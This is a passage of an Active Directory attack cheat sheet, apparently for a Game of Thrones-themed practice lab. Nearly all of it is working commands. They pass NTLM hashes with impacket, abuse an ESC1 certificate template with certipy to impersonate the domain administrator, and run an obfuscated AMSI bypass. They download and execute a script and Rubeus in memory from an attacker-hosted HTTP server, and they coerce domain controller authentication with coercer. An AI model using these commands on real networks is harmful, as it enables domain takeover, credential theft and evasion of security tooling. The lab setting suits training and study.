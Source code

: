 ```

#Delete the reg for RDP
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' delete -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin'

#TGT
getTGT.py -hashes ':cba36eccfd9d949c73bc73715364aff5' north.sevenkingdoms.local/catelyn.stark
export KRB5CCNAME=/workspace/tgt/catelyn.stark.ccache
wmiexec.py -k -no-pass north.sevenkingdoms.local/catelyn.stark@winterfell

#Can also use the tickets dumped with lsassy using impacket ticketConverter
ticketConverter.py kirbi_ticket.kirbi ccache_ticket.ccache
```

## Certificate
### Pass The Certificate
```
certipy req -u khal.drogo@essos.local -p 'horse' -target braavos.essos.local -template ESC1 -ca ESSOS-CA -upn administrator@essos.local
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

# Delegations
## Unconstrained delegation
- Connect 
```
xfreerdp /d:north.sevenkingdoms.local /u:eddard.stark /p:'FightP3aceAndHonor!' /v:192.168.56.11 /cert-ignore
```
- From there we will bypass AMSI and launch Rubeus in memory 
- Prepare our server containing Rubeus.exe and our AMSI bypass
`python3 -m http.server 8080`

- On the RDP session bypass AMSI 
```
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')|IEX
```

- Now launch Rubeus in memory with execute assembly. First we will list the available tickets :
```
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```

- And now force a coerce of the DC kingslanding to the DC winterfell.
`python3 coercer.py -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell`
